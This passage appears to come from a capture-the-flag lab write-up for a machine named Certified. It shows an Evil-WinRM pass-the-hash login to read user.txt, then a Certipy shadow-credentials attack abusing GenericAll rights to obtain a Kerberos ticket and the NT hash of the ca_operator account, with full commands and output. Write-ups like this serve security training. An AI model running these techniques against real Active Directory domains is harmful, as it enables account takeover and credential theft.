 ### Getting user.txt
I’ll use [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) to get a shell:

```bash
evil-winrm -i certified.htb -u management_svc -H a091c1832bcdd4677c28b5a6a1295584

Evil-WinRM shell v3.5

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\management_svc\Documents>
```

We can find `user.txt` on the desktop:

```powershell
*Evil-WinRM* PS C:\Users\management_svc\desktop> type user.txt
5b5f382a************************
```
## Abusing  **GenericAll** on **ca_operator** to gain credentials

We can use the`management_svc` account to perform another Shadow Credential attack against the **`ca_operator`** account:

```bash
certipy shadow auto -username management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -account ca_operator -target certified.htb -dc-ip 10.129.231.186
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_operator'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '7459ff04-4030-aeb3-5fed-7265fc1c3244'
[*] Adding Key Credential with device ID '7459ff04-4030-aeb3-5fed-7265fc1c3244' to the Key Credentials for 'ca_operator'
[*] Successfully added Key Credential with device ID '7459ff04-4030-aeb3-5fed-7265fc1c3244' to the Key Credentials for 'ca_operator'
/home/truffle/tools/certipy-venv/lib/python3.11/site-packages/certipy/lib/certificate.py:233: CryptographyDeprecationWarning: Parsed a serial number which wasn't positive (i.e., it was negati
ve or zero), which is disallowed by RFC 5280. Loading this certificate will cause an exception in a future release of cryptography.
  return x509.load_der_x509_certificate(certificate)
[*] Authenticating as 'ca_operator' with the certificate
[*] Using principal: ca_operator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ca_operator.ccache'
[*] Trying to retrieve NT hash for 'ca_operator'
[*] Restoring the old Key Credentials for 'ca_operator'
[*] Successfully restored the old Key Credentials for 'ca_operator'
[*] NT hash for 'ca_operator': b4b86f45c6018f1b664f70805f45d8f2
  
```

